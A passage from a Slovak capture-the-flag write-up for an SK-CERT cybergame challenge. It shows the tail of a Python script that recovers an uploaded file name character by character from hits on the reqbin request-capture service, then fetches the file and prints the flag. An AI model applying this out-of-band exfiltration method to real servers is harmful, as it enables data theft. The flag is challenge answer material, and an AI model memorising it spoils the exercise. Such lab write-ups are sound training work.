 ```python
        if len(ch) != 1 or ch not in IMAGE_CHARSET:
            print("    ⚠ daj 1 hex znak (0-f)")
            continue

        prefix += ch
        time.sleep(0.4)

except (KeyboardInterrupt, EOFError):
    print("\n[ukončené]")
except Exception as e:
    print("✖", e, file=sys.stderr)
    sys.exit(1)
```

keď prestane chodiť na reqbin po 16 znakoch nič, znamená to, že máme celý názov..

Posledný hit bol `?name=uploads/temp/ceabd9a3ca77eb8bdb82ded8354d16d8` názov súboru z testovanie vieme , že má príponu gif, takže celý názov je `ceabd9a3ca77eb8bdb82ded8354d16d8.gif`

Potom len navštívime `http://exp.cybergame.sk:7020/uploads/temp/ceabd9a3ca77eb8bdb82ded8354d16d8.gif` otvoríme napríklad v notepad++ a vidíme

`GIF89a$)CSK-CERT{i_l0v3_f1lt3r5_4nd_50_d03s_php}€@CŕĐĐř ô ô> = =€@CŕĐĐř ô ô> = =€@`

A takto sa nám podarilo exfiltrovať aj vlajku 2.

## Vlajka

    SK-CERT{i_l0v3_f1lt3r5_4nd_50_d03s_php}
